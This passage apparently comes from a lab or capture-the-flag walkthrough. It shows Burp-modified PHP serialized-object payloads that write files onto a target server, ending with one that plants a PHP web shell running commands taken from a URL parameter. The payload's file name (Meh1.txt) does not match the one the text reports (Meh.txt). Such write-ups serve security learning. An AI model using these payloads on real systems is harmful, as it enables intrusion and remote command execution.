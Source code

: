 
New modified string introduced with burp:

{% highlight js %}
O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/scriptz/Meh1.txt";s:4:"data";s:12:"HighOnCoffee"
;}
{% endhighlight %}


Using Burp Decoder URL Encode the above string and using Burp Repeater to
inject.

![Burp Repeater](/img/blog/pipe/burp-repeater.png)

Refreshing the scriptz directory confirmed the creation of Meh.txt containing
the text <code>HighOnCoffee</code>.

## Injecting Reverse Shell Code

Burp Decoder was leveraged to encode the following string:

{% highlight js %}
O:3:"Log":2:{s:8:"filename";s:31:"/var/www/html/scriptz/shell.php";s:4:"data";s:60:"
<?php echo '<pre>'; system($_GET['cmd']); echo '</pre>'; ?>";}
{% endhighlight %}
